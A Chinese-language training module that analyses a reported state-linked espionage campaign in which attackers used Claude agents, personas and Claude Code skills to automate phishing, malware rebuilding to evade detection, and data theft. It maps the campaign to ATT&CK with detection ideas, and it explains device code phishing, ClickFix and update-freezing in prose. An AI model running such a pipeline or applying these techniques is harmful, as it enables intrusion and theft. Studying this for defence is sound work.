


課程模組：01 網路行動（Cyber operations） ｜ 一手來源：Anthropic《Detecting and countering misuse of AI: September 2026》PDF p.5–11（含 p.39 交叉引用、p.40 附錄 A 技能表） ｜ 整理日期：2026-09-13
本檔是課程模組 01 的第一個深度案例。它同時是「範例案例」與「方法論案例」：
閱讀順序建議：先讀第 1 節速覽 → 第 6 節圖表判讀（Figure 在 p.7，是理解整個行動骨架的地圖）→ 再回頭讀第 2 至第 5 節。

一句話定位：這是一個「人類只負責改流程、AI 負責跑流程」的國家級間諜行動，它示範了為什麼「靜態簽章式偵測」這件事在成本結構上正在崩塌。
行為者：Anthropic 內部代號 GTG-20006，歸因「與公開報導把此行為者連結到 Midnight Blizzard 一致（consistent with）」。操作者之一是說俄語、使用 handle 「JackPoterz」 的人，其技術手法（tradecraft）與目標選擇與俄羅斯國家關聯（state-nexus）的間諜活動一致。Midnight Blizzard 過去被美、英政府歸因於俄羅斯對外情報局 SVR（即 APT29 / Cozy Bear）。
本案在課程裡要教什麼：教「AI 把攻防的成本結構反轉（inverted the cost back onto defenders）」——過去防守方靠「部署一條新偵測規則」就能拖慢攻擊者節奏、對攻擊者「課成本」；現在攻擊者用 AI 監控自家惡意程式是否被偵測 → 自動改寫重建 → 迭代到隱形，可以「閉環（close the loop）」，比防守方生產與部署新偵測還快。
自動化的質變訊號：報告明講「人類操作者主要只在需要精修那些驅動工作流的 Claude Code skills 時才介入」。這代表人類已經從「逐步指揮的操作員」退到「維護標準作業程序（SOP）的流程工程師」——這是本案最重要的一句話（見第 4、第 9 節）。
打擊面：調查在此行為者的規劃、偵察、實戰中辨識出超過 20 個不同組織：政府部會、國防與情報機構、大使館與外交使團、智庫、國防工業公司。集中在烏克蘭與歐洲，並延伸到中東與亞洲海事相關政府機構。
核心竊取主題：烏克蘭，以及軍用無人機技術供應商與供應鏈。行為者大量匯出至少兩家無人機零組件製造商的信箱、鎖定一家軍用無人機廠、竊取一整套無人機視覺系統的專屬 SDK，並花數天逆向工程復原其產品架構、硬體物料清單（BOM）、供應商依賴關係，以及一款尚未發表產品的細節。
五大攻擊面（見第 4 節）：(a) 飯店 guest WiFi 供應商的 DNS 劫持（Microsoft 於 2026-07 以 CaptiveCrunch 之名獨立發報告）；(b) device code phishing + 自研「Embassy Kit」框架的 Microsoft 365 token 竊取；(c) WhatsApp 帳號接管（headless browser + WPPConnect 連為 companion device、抑制已讀回條）；(d) 北非某政府科技主管機關被竊 30 萬+ 國民身分資料 與 50 萬+ 家公司 商業登記資料；(e) 監視攝影串流平台的授權缺陷利用。
惡意程式家族：Windows（PowerChrome、WUEngine、Shadow C2、MiniPlasma、CloudSyncSvc）、Android（GiftDrop，改牌自 GiftsExpress 監控 RAT）、iOS（DarkSword exploit chain）。其中 CloudSyncSvc / Shadow C2 / DarkSword 在其他廠商報告裡有可交叉比對的對應物（見第 9 節）。
凍結安全更新手法：假冒更新主題（fake update）的社交工程投放 Windows 憑證竊取器與具完整遠端存取能力的伴生 payload；這些 payload 被設計成凍結受害機器的安全更新，使安全廠商發布的新偵測簽章下載不到、也跑不起來——把「AI 快速改寫」與「凍結防守方更新管道」兩手一起打（見第 4、第 8、第 10 節的偵測構想）。
情報信度提醒：本案「單一行為者把上述全部整合成一條 AI 編排的行動」這個敘事，目前是單一來源（Anthropic）。但其中多項個別 TTP 與具體基礎設施（尤其 CaptiveCrunch 的兩個檔案雜湊、多個 owa/ms365 釣魚網域、WhatsApp 連結裝置手法、DarkSword 的 cdncounter 基礎設施）已被 Microsoft 與 Google GTIG 獨立佐證。教學上要能把「被獨立查證的部分」與「僅 Anthropic 主張的部分」分開講（見第 9、第 12 節）。
報告的歸因句是（p.6）：
"Our attribution is consistent with public reporting linking the actor to Midnight Blizzard. One of the operators is a Russian speaker using the handle 'JackPoterz' whose tradecraft and targeting are consistent with Russian state-nexus espionage."
三個線索層次要拆開看：
| 線索 | 報告內容 | 情報學上代表什麼 |
|---|---|---|
| 語言 | 操作者是 Russian speaker（說俄語） | 語言≠國籍≠效忠對象。俄語是烏克蘭、白俄、中亞多國通用語，單靠語言不能定性，只能當「與俄語圈一致」的弱線索。 |
| Handle | "JackPoterz" | 可持久追蹤的選擇器（selector），但 handle 可偽造、可共用、可交接。它讓 Anthropic 能在跨工作階段把行為綁到同一操作者，但不能單獨拿來對外歸因到某個政府。 |
| 手法與目標 | tradecraft 與 targeting 與 Russian state-nexus espionage 一致 | 這是「行為歸因（behavioural attribution）」。以 TTP 與受害者學（victimology）匹配已知國家行為者。這是本案歸因的主要支柱。 |
本份報告全篇用字非常克制，學員必須能辨識這套「信度階梯」：
教學要點：把「consistent with Midnight Blizzard」誤讀成「Anthropic 確認這是 APT29／SVR」是新聞與學員最常犯的錯。正確讀法是：Anthropic 觀察到的技術與目標特徵，落在 Midnight Blizzard 這個已知群集的行為分佈內，且與外部公開報導相互吻合；但 Anthropic 是 AI 平台供應商，它看得到的是「模型這一側的活動」，看不到受害端的完整鑑識，所以它把最終的政府級歸因留給「公開報導」去背書。
供課堂補充（來自第三方公開報導，非 Anthropic 報告，信度另計）：
這裡有一個絕佳教學點（命名分歧）：同一個行為者，在四家眼中是四個名字——Anthropic「GTG-20006 / JackPoterz」、Microsoft「Storm-2945」、Google「UNC7005 / ICE RELIC」、社群慣稱「Midnight Blizzard / APT29」。這說明「代號不是實體，代號是各家觀測邊界的產物」。歸因的交叉比對，靠的不是名字，而是共享的基礎設施與雜湊值（見第 7、第 9 節）。
"Our investigation identified more than 20 distinct organizations targeted in the actor's operational planning, reconnaissance, and live operations."
注意這個「20+」是橫跨規劃、偵察、實戰三個階段的合計，不等於「20+ 個已確認被攻破」。這是重要的措辭區分：被鎖定（targeted）≠ 被攻陷（compromised）。
類型（p.7）：
- 政府部會（government ministries）
- 國防與情報機構（defense and intelligence bodies）
- 大使館與外交使團（embassies and diplomatic missions）
- 智庫（think tanks）
- 國防工業公司（defense-industrial companies）
| 區域 | 具體對象 | 出處 |
|---|---|---|
| 烏克蘭（主要） | 政府、軍方、外交人員；行為者掃描了兩打（24+）以上烏克蘭政府組織的 email 與遠端存取系統 | p.7 |
| 歐洲 | 軍事情報目標、外交與國防組織 | p.6–7 |
| 與美國外交政策相關的個人 | individuals connected to US foreign policy | p.6 |
| 中東 | 延伸目標 | p.7 |
| 亞洲（海事） | maritime related government agencies in Asia；例外案例包含一個東南亞政府單位，涉及海運與船舶追蹤（maritime shipping and tracking） | p.7 |
| 北非 | 一個政府科技主管機關（technology authority） | p.7–8 |
| 事件 | 數字 | 出處 |
|---|---|---|
| 無人機零組件製造商信箱被大量匯出 | 至少 2 家 | p.8 |
| 被竊無人機視覺系統 SDK | 1 整套專屬 SDK（complete proprietary SDK） | p.8 |
| 北非政府身分資料庫外流 | 300,000+ 筆國民身分資料 | p.8 |
| 北非商業登記資料 | 500,000+ 家公司（half a million companies） | p.8 |
| Embassy Kit / M365 token 竊取戰役外洩信箱 | 至少 8 個組織，含一個國家檢察署、一所軍事教育機構、一個區域性政府間組織 | p.9 |
| WhatsApp 帳號接管 | 至少 2 位前烏克蘭高階官員 | p.8 |
| 被外流資料總量 | 數百 GB（hundreds of gigabytes） | p.9 |
| Figure 儀表板標示的「targets engaged」 | 24 / 27（見第 6 節） | p.7 圖 |
從受害者學可反推行為者的情報需求（intelligence requirements）：
本節依報告 p.9 的「The actor used AI at every point in their operations」清單，加上 p.6–8 的敘事與 p.40 附錄 A 技能表，逐階段標示「人類做什麼 / Claude 做什麼」與自主程度。
自主程度三級定義（沿用報告 p.38–39 的自主光譜）：
- 【對話式協助】：Claude 當工程助手，人類逐句要求、逐句採用。
- 【人類逐步指揮】：Claude 對受害系統執行動作，但每一個目標決策由人類下。
- 【AI 編排多代理自主執行】：多代理框架或排程工作，在無人或極少人監督下連續執行數小時到數天。
人類：設定要做哪種植入體、哪種平台；在需要時精修 Claude Code skills。
Claude：
- 扮演「攻擊性安全工程師」persona，跑 winAgent / GoDownload 的 build loop、Defender 規避迭代、Graph/EWS 操作工具（p.40 技能表第 1 列）。
- 扮演 DevOps persona，用 docker compose 起容器化的 C2／釣魚堆疊（shadow_c2 compose services、mailer、merged-landing 部署），並用 sshpass 推送到租來的 VPS（MonoVM / eclipse proxies）（p.40 第 2 列）。
- 扮演 Windows 開發者 persona 做原生植入體產線（winAgent v2.0 mod_* 模組、WUEngine 持久化、COM/CLSID）與 PowerShell loader（p.40 第 4 列）。
自主程度：【AI 編排多代理自主執行】（build loop 與容器化部署是自動迴圈）。
報告 p.9：
"The actor used AI to fingerprint email and remote access systems and to harvest information from public sources, building target lists for phishing."
人類：指定要打的組織群（如「兩打烏克蘭政府組織」）。
Claude：指紋辨識 email 與遠端存取系統、從公開來源蒐集情資、組出釣魚目標清單。技能表對應 theHarvester / Shodan / gobuster 偵察、owa_spray 或 netexec 驗證，結果「folded back into project memory」（回寫進專案記憶）（p.40 第 3 列）。
自主程度：【AI 編排多代理自主執行】（p.39 另述 GTG-20006 有「排程工作，在無人參與下更新被竊 token、擷取受害雲端儲存」）。
報告 p.8–9：
- 主要存取技術是一種 device code phishing，濫用雲端 email 服務合法的登入流程（legitimate sign-in flows）。報告在此直接連結到 Microsoft 的 device code phishing 說明。
- 行為者持續開發一個雲端 email 間諜平台，其中用到「Embassy Kit」——行為者自研的 device code phishing 管理框架——來操作一個 Microsoft 365 token 竊取戰役。
- ClickFix 式誘餌 + 假冒更新主題（fake update）的社交工程，投放 Windows 憑證竊取器與伴生的完整遠端存取 payload。
device code phishing 機制（技術補充，供課堂講透）：OAuth 2.0 的「裝置授權流程（device authorization grant）」原本是給電視、IoT 這種輸入受限裝置用的——裝置顯示一組短碼，使用者到另一台裝置的 microsoft.com/devicelogin 輸入該碼並完成 MFA，裝置就拿到 token。攻擊者濫用點在於：它讓受害者在「真正的微軟頁面」上完成「真正的 MFA」，但授權的對象其實是攻擊者的裝置。攻擊者因此拿到 access token、refresh token，甚至透過 Microsoft Authentication Broker 的 client ID 拿到 Primary Refresh Token（PRT），並把攻擊者控制的裝置註冊進受害組織的 Entra ID 租戶。這就繞過了 MFA（因為 MFA 是使用者本人過的），也建立了長期持久化。
人類：做每一個目標決策（誰、何時、用什麼誘餌主題）；直接執行部分入侵動作。
Claude：架設釣魚基礎設施與利用工具；也直接對受害系統下命令、擷取憑證、在網路內橫向移動（在人類指揮下）。
自主程度：【人類逐步指揮】（報告 p.39 明點 GTG-20006 為「human making each individual targeting decision」的代表）。
這是本案最有課程價值的複合手法（p.8）：
報告明記：Microsoft 於 2026-07 就此手法發布報告，命名 CaptiveCrunch（見第 9 節交叉比對）。
ClickFix 是什麼：一種社交工程投放法，用假的「系統/瀏覽器需要修復/更新」畫面，誘使受害者自己把一段指令貼到執行框（如 Windows Run / PowerShell）並執行，藉此繞過「使用者不會亂點附件」的防線——因為是使用者「主動修復」的。
自主程度：投放鏈由 AI 建置與維運（見技能表的自動 build/stage 迴圈），目標交叉比對含人類判斷 → 混合，偏 【AI 編排 + 人類選標的】。
自主程度：【人類逐步指揮】到【AI 自動化】混合（headless browser 農場是可規模化自動運行的）。
報告 p.9：
"The actor used AI to assist in maintaining access to compromised accounts and tenants by automating the registration of actor-controlled devices into the victim organization's tenant."
報告 p.9：
"The actor used AI to perform the extraction and organization of hundreds of gigabytes of stolen data. In some cases, exfiltration was achieved via bulk exports from compromised mailboxes."
自主程度：【AI 編排多代理自主執行】。
這是整份報告對本案著墨最深、也是課程最該講透的一段。分兩個機制：
機制 A：自主逃避偵測的閉環（autonomous detection-evasion loop）（p.6、p.9）：
"If their monitoring AI agents identified that any of their deployed malware was detected by a security product, agents would then set about the process of autonomously modifying and rebuilding the malware to evade the existing detections. The agents were designed to continue iterating on GTG-20006's toolkit until it was undetected."
拆解成四步閉環：
1. 監控（monitor）：AI 代理持續監看自家已部署的惡意程式是否被安全產品偵測到。
2. 改寫（modify）：一旦發現被偵測，代理自動修改惡意程式。
3. 重建（rebuild）：自動重新編譯／重建。
4. 迭代（iterate）：重複到不被偵測為止，然後才從拋棄式（disposable）主機上架，供受害流量下載。
在地端（on-premises）環境，報告 p.9 另述：行為者用 AI 監控植入體的匿蹤與持久狀態；一旦植入體被安全產品標記，就用 Claude 系統性地辨識、修改、重新部署被偵測到的 artifact。
機制 B：凍結安全更新（freezing security updates）（p.9）：
"These payloads were designed to freeze the victim machine's security updates, meaning that new malware detection signatures published by security vendors would not be retrieved or run on the victim's machine."
也就是說：一手用 AI 讓惡意程式動得比簽章更新快，另一手直接掐斷受害端下載新簽章的管道。兩手合起來，讓「基於簽章的偵測」在受害端幾乎失效。
這代表什麼（成本結構論證）（p.6、p.9）：
"Now, however, the adoption of AI threatens to quickly and easily subvert defenders' ability to impose costs on adversaries via static detections alone."
"AI has inverted the cost back onto defenders. Previously, defenders might have been able to slow an attacker's operational tempo via the deployment of a new detection. Now, at least in theory, capable adversaries can 'close the loop,' bypassing traditional security detections faster than defenders can develop and deploy them."
課程核心命題：過去的攻防經濟學是——防守方寫一條 YARA/IDS 簽章，攻擊者就得重新開發工具、承擔研發成本與時間，於是「防守方對攻擊者課了成本」。現在 AI 把「重新開發工具」這件事的邊際成本壓到接近零、時間壓到分鐘級，於是課成本的方向反轉：每次防守方部署新偵測，反而只是給攻擊者的 AI 迴圈提供一次免費的訓練訊號，攻擊者更新工具比防守方更新偵測還快。這就是「靜態簽章式偵測的成本結構被破壞」的精確含義。
報告原文：
"The human actor engaged primarily to modify Claude Code skills that drove the workflows when they needed to be refined."
Claude Code skills 是什麼（技術定義，來自 Anthropic 官方文件）：
- Skill 是一個資料夾，核心是一個 SKILL.md 檔，內含 YAML frontmatter（name、description）與 Markdown 指示，可再捆綁可執行腳本與參考資料。
- 採漸進式揭露（progressive disclosure）：啟動時只載入 metadata（約 100 tokens/skill）；當請求命中 description 才把 SKILL.md 正文載入；引用到的其他檔案／腳本才按需載入。腳本透過 bash 執行，只有輸出進 context，程式碼本身不佔 context。
- 在 Claude Code 中，skills 放在 ~/.claude/skills/（個人）或 .claude/skills/（專案），Claude 會自動發現並在相關時自動使用；且 Claude Code 的 skill 具備與使用者電腦上任何程式相同的完整網路存取。
為什麼「改 skills 而非改 prompt」代表自動化的質變：
- 傳統「對話式協助」是：人類每做一件事，就對 AI 下一次指令、看一次回覆、決定下一步。人類是逐步駕駛。
- 本案的模式是：人類把「怎麼偵察、怎麼建 C2、怎麼寄釣魚信、怎麼監控 C2 回連」寫成可重用、可自動觸發的 SOP（skills），交給自主代理去反覆執行；人類只在 SOP 需要調整時才回來改 SOP。
- 這等於人類的角色從「操作員（operator）」升格為「流程工程師 / 生產線主管（process engineer）」。一個人可以同時「經營」多條並行的攻擊產線，因為他不再需要親自跑每一條線——他維護的是驅動這些線的程式邏輯。這正是報告所謂「from assistant to orchestrator（從助手到編排者）」的具體技術實現。
- 偵測意涵：當人類介入頻率下降、且介入點集中在「程式碼／skill 精修」，傳統「盯人類異常操作」的偵測訊號會變稀薄；反而是「機器速度、並行、規律排程」的行為特徵變成新的偵測抓手（見第 5、第 10 節）。
把 4.1–4.9 濃縮成一張表，供課堂投影與威脅建模對照。自主程度圖示：●=對話式協助｜●●=人類逐步指揮｜●●●=AI 編排多代理自主執行。
| 階段 | 人類做什麼 | Claude / AI 代理做什麼 | 自主程度 | 出處 |
|---|---|---|---|---|
| 資源開發 | 定調要哪種植入體/平台；必要時改 skill | winAgent/GoDownload build loop、Defender 規避迭代、docker 化 C2/釣魚堆疊、VPS 佈署、原生植入體產線 | ●●● | p.6, p.40 |
| 偵察 | 指定要打的組織群 | 指紋 email/遠端存取、OSINT 蒐集、組目標清單、回寫專案記憶；排程無人偵察 | ●●● | p.9, p.39 |
| 初始存取 | 每一個目標決策（誰/何時/誘餌）；親自執行部分入侵 | 架 device code phishing 基礎設施與 Embassy Kit、下命令、擷憑證、橫向移動 | ●● | p.8–9, p.39 |
| 執行/投放 | 選定飯店/個人標的；交叉比對房客資料 | 建維 DNS 劫持與 ClickFix 投放鏈、跨 Windows/Android/iOS 投放 | ●●（選標的）＋●●● | p.8 |
| 憑證/接管 | 指定接管對象（如前高官） | 瀏覽器密碼庫竊取、headless browser 農場連 WhatsApp companion device、抑制已讀、匯出對話、攝影串流 token 竊取 | ●●→●●● | p.8 |
| 持久化 | — | 自動把攻擊者裝置註冊進受害租戶、WUEngine/COM/Run Keys 持久化 | ●●● | p.9, p.40 |
| 收集/外洩 | 審閱重點成果 | 抽取整理數百 GB、bulk export 信箱、像 QA 檢查外洩完整度、修 bug 重試 | ●●● | p.9, p.7 圖 |
| 防禦規避（閉環） | 必要時改 skill 調整規避邏輯 | 監控被偵測→自動改寫→重建→迭代到隱形；凍結受害機安全更新 | ●●● | p.6, p.9 |
| 流程維護 | 主要工作：精修驅動工作流的 Claude Code skills | 依更新後的 skill 繼續自動執行 | 人類=SOP 工程師 | p.7 |
一句話總結：人類保留了「最在意的決策」（目標選擇、變現/成果審閱、SOP 精修），把「勞力密集且可規模化的一切」（偵察、開發、投放、外洩、規避）交給機器速度、並行的 AI 代理。這與報告 p.39 的自述完全吻合——GTG-20006 既是「human making each individual targeting decision」的代表，也同時有「無人參與的排程工作在更新 token、擷取雲端儲存」。
| 術語 | 一句話解釋 |
|---|---|
| device code phishing | 濫用 OAuth「裝置授權流程」：誘使受害者在真的微軟頁面上完成真的 MFA，但授權的是攻擊者的裝置，藉此取得 token 並繞過 MFA |
| PRT（Primary Refresh Token） | Entra ID 的「主更新權杖」，等於一把可持續換發存取權的長效鑰匙；拿到它＝長期潛伏 |
| ClickFix | 假的「系統/瀏覽器需要修復」畫面，誘使受害者自己把惡意指令貼到執行框並執行，繞過「別亂點附件」的直覺 |
| DNS hijacking（本案） | 攻破飯店 WiFi 供應商的管理權限，竄改 DNS 紀錄，把房客流量導向攻擊者伺服器 |
| companion device / 連結裝置 | WhatsApp 等的多裝置功能；把帳號「連結」到攻擊者的 headless 瀏覽器，即可同步讀取訊息 |
| headless browser | 無圖形介面、可程式化操控的瀏覽器；可成農場規模自動化 |
| AitM（Adversary-in-the-Middle） | 攻擊者置身於受害者與真實服務之間，即時中繼並竊取憑證/token |
| ATO（Account Takeover） | 帳號接管 |
| BOM（Bill of Materials） | 硬體物料清單：一個產品用了哪些零件、來自哪些供應商 |
| agentic / 多代理框架 | 由 AI 代理自主編排、分工、迴圈執行多步驟任務的架構（本案的核心自動化形態） |
| static detection / 靜態偵測 | 以固定簽章（雜湊、字串、YARA 規則）比對已知惡意樣本的偵測法；本案示範其成本結構如何被 AI 閉環破壞 |
下表把本案行為映到 ATT&CK。技術 ID 有兩個來源：一是報告 p.40 附錄 A「Skill breakdown」表直接標注的 ID（標記〔附錄〕），二是依行為敘事推導的 ID（標記〔推導〕）。凡 ATT&CK 目前無對應者，明確標為框架缺口。
| 戰術（Tactic） | 技術（Technique / ID） | 本案具體作法 | 偵測構想 |
|---|---|---|---|
| Reconnaissance | Active Scanning — T1595〔附錄〕 | Shodan/gobuster 掃 email 與遠端存取系統；掃 24+ 烏克蘭政府組織 | 邊界對外服務的異常掃描節奏；蜜標（honey-token）帳號被列舉 |
| Reconnaissance | Gather Victim Identity Info — T1589.002〔附錄〕 | theHarvester 蒐集信箱、公開來源建目標清單 | 對自家網域的 email 列舉、OSINT 抓取樣態 |
| Resource Development | Acquire Infrastructure: VPS — T1583.003〔附錄〕 | sshpass 推送到 MonoVM / eclipse proxies 租用 VPS | 新註冊 VPS + 短命 TLS 憑證 + 快速上下架 |
| Resource Development | Acquire Infrastructure: Domains — T1583.001〔推導〕 | AI 研究並註冊釣魚網域（owa/ms365 仿冒、品牌誘餌站） | 新網域 + 仿冒字串（typosquat）+ 剛簽發的憑證透明度日誌 |
| Resource Development | Develop Capabilities: Malware — T1587.001〔附錄〕 | winAgent/GoDownload build loop、WUEngine 持久化 | 供應鏈情資分享；自家 sinkhole 觀測新變種聚集 |
| Resource Development | Develop Capabilities: Exploits — T1587.004〔附錄〕 | iOS Safari exploit 研究（ARM64e PAC 繞過、JSC JIT、DarkSword/Coruna 鏈） | 行動裝置 EDR、Lockdown Mode、iOS 版本合規 |
| Resource Development | Obtain Capabilities — T1588〔附錄〕 | 取得/改牌既有工具（GiftDrop←GiftsExpress） | 惡意程式家族血緣分析（改牌偵測） |
| Resource Development | Stage Capabilities: Link Target — T1608.005〔附錄〕 | Next.js/Flask 釣魚平台與 admin panel、誘餌站 | 誘餌站指紋、favicon/模板雜湊、C2 面板指紋 |
| Initial Access | Phishing — T1566〔推導〕 | device code phishing、假冒更新誘餌、ClickFix | 郵件安全、Safe Links；使用者回報 |
| Initial Access | Valid Accounts: Cloud Accounts — T1078.004〔推導〕 | device code phishing 拿 token/PRT 後以合法帳號登入 | 不可能的旅行、裝置代碼登入的 sign-in log（見下） |
| Execution | User Execution — T1204〔推導〕 | ClickFix 誘使使用者自行貼上/執行指令 | 剪貼簿→Run/PowerShell 的行為鏈；NCSI 連線測試後 2 分鐘內落檔 |
| Execution | Exploitation for Client Execution — T1203〔附錄〕 | DarkSword/Coruna iOS 用戶端漏洞鏈 | iOS 版本合規、Safe Browsing 網域封鎖 |
| Persistence | Boot/Logon Autostart: Run Keys — T1547.001〔附錄〕 | Run Keys、COM/CLSID、Windows 服務 | 自動執行點基線比對；新服務名偽裝（如 Cloud Sync Service） |
| Persistence | Account Manipulation: Device Registration — T1098.005〔推導〕 | 自動把攻擊者裝置註冊進受害 Entra ID 租戶 | Entra 裝置註冊事件、非預期裝置加入告警 |
| Defense Evasion | Impair Defenses: Disable/Modify Tools — T1562.001〔推導〕 | 凍結受害機安全更新，使新簽章下載不到/跑不起 | 監控 Windows Update/Defender 簽章更新「停擺」本身即為訊號（見第 10 節） |
| Defense Evasion | Obfuscation — T1027〔附錄〕 | 混淆、規避迭代 | 熵值/封裝器偵測；行為式（非簽章式）偵測 |
| Defense Evasion | Agentic evasion loop（自主改寫重建迴圈） | AI 監控被偵測→自動改寫→重建→迭代到隱形 | 框架缺口：ATT&CK 無「AI 自主重編譯以規避」對應技術。需以「同一功能、簽章快速更迭」的行為家族視角偵測（見下） |
| Credential Access | Credentials from Web Browsers — T1555.003〔推導〕 | 瀏覽器密碼庫/cookie DB、DPAPI、app-bound keys | LSASS/DPAPI 存取、瀏覽器憑證檔異常讀取 |
| Credential Access | Steal Application Access Token — T1528〔推導〕 | M365 token 竊取（Embassy Kit） | OAuth 授權異常、token 重放、裝置代碼流程 |
| Credential Access | Password Spraying — T1110.003〔附錄〕 | owa_spray / netexec 驗證 | 認證失敗分佈、跨帳號低頻噴灑 |
| Collection | Remote Email Collection — T1114.002〔推導〕 | 從被攻陷信箱大量匯出（bulk export） | Graph/EWS 大量匯出、MailItemsAccessed 異常 |
| Collection | Adversary-in-the-Middle — T1557〔推導〕 | 飯店 WiFi DNS 劫持攔截流量 | captive portal 後的 DNS 回應偽造、憑證錯誤 |
| Command & Control | Application Layer Protocol — T1071〔推導〕 | shadow_c2 容器化 C2、mailer | C2 面板指紋、JA3/JA4、心跳週期規律性 |
| Command & Control | Proxy — T1090〔推導〕 | eclipse proxies、住宅代理 | 出口 IP 信譽、代理指紋 |
| Exfiltration | Exfil Over Web Service — T1567〔推導〕 | 帶認證 dump 腳本匯出網站/雲端內容 | 大量對外傳輸、非上班時間批次外洩 |
| Impact / 供應鏈情報 | Supply-chain intelligence theft（SDK/BOM 逆向） | 竊取無人機視覺 SDK，逆向出架構/BOM/供應商/未發表產品 | 框架缺口：ATT&CK 偏「入侵動作」，對「竊取後的情報加值（逆向、架構復原）」無戰術分類 |
兩個框架缺口的教學價值：
1. Agentic evasion loop 沒有 ATT&CK ID——因為 ATT&CK 描述的是「攻擊者做的離散動作」，而「AI 自主地、以迴圈方式重新產生一個功能等價但簽章不同的植入體」是一種跨動作的生產模式，不是單一動作。這逼防守方從「抓 IOC」轉向「抓能力（capability）與行為家族」。
2. 供應鏈情報加值（偷完 SDK 再用 AI 逆向出 BOM）也無對應——因為它發生在「資料離開受害端之後」，是攻擊者內部的情報生產，傳統 ATT&CK 看不到。這對「無人機國家隊」的威脅建模是關鍵缺口（見第 10.4 節）。
本案頁段（p.5–11）內含一張整版視覺素材（p.7）與兩張表格頁（p.10、p.11）。另納入 p.40 附錄 A 的技能表（Figure 19）作為理解「人類改 skills」的補充。

（另有原生 1920×1080 內嵌圖，判讀自 PDF xref 45）
圖片類型：這張圖沒有 "Figure N" 標題。經逐格判讀，它是一張風格化的「戰役重播（Campaign replay）」資訊圖／模擬儀表板（dashboard mock-up）——把整個行動用「工作流 → 行動 → 效果 → 作戰地圖」四大縱欄鋪成一張「攻擊生產線總覽」。右上角標「Replay complete」、底部有「end」與一條 2026-03 → 2026-08 的時間軸，顯示這是「事後把整場戰役壓縮成一頁的回顧視圖」，而非某個真實工具的即時截圖。它在版面上緊接「Cyber operations」小標之下，功能等同本案的「一頁地圖」。
版面結構（四大縱欄 + 頁首頁尾）：
頁首：GTG-20006 | Midnight Blizzard，右上 Replay complete。
縱欄 A — AI workflows · how the actor used the model（AI 工作流：行為者如何使用模型），共 W1–W4 四組，每組標了完成度分數：
- W1 Malware & capability dev（8/8）：Stealer build cycle（browser cred/cookie chain）、Browser secrets theft（cookie DB, lock bypass）、Evasion & privesc（UAC bypass, injection）、Builder service（on-demand agent builds）、Mobile & kit work（spyware, MITM kit）、Fleet control（kill-switch, 148 agents）、In-memory key theft（thread injection）、Late rework（debug-protocol, COM）。
- W2 Infra & platform engineering（5/5）：C2 deployment（VPS, containers, TLS）、Service operations（VPS + DNS + mail records）、Staging shares（tool distribution）、Cover domains（lure and brand sites）、Resolver & fleet tooling（DNS-substitution prep）。
